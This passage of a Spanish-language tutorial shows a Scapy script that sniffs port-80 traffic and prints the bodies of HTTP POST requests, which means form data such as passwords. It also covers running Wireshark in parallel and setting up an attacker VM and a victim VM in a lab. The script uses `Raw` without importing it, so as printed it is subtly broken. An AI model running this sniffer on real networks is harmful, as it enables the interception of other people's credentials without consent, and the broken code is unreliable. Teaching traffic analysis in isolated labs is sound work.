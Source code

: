 #### 🔍 ¿Qué hace?

- Solo captura paquetes HTTP (puerto 80).
- Detecta el método (`GET`, `POST`) y la URL.
- Muy útil para ver navegación sin cifrado.

---

### 🔑 Ejemplo 3: Capturar datos de formularios HTTP

```python
from scapy.all import sniff
from scapy.layers.http import HTTPRequest

def extract_http_post(packet):
    if packet.haslayer(HTTPRequest):
        if packet[HTTPRequest].Method == b"POST":
            raw = packet[Raw].load if packet.haslayer(Raw) else None
            if raw:
                print("[POST Data Detected]")
                print(raw.decode(errors='ignore'))

sniff(iface="eth0", filter="tcp port 80", prn=extract_http_post, store=False)
```

> 🛡️ **Ojo**: Si se usa HTTPS (puerto 443), estos datos estarán cifrados y **no podrás verlos** sin MITM.

---

### 📺 Tip: Ver tráfico en vivo en paralelo con Wireshark

Puedes correr Wireshark a la vez:

```bash
sudo wireshark
```

Y ver los paquetes visualmente mientras tu script en Python los imprime.

---

### 🧪 ¿Cómo practicar esto en un laboratorio?

#### 🔨 Recomendado:

1. **Dos máquinas virtuales** (una víctima y una atacante):

   - Kali Linux o Ubuntu (Python sniffer)
   - Windows o Ubuntu (víctima)

2. Red en modo **"red interna"** o **"NAT con red local"** en VirtualBox.

3. En la víctima, navega a páginas de prueba como:

   - [http://example.com](http://example.com)
   - [http://testphp.vulnweb.com](http://testphp.vulnweb.com)
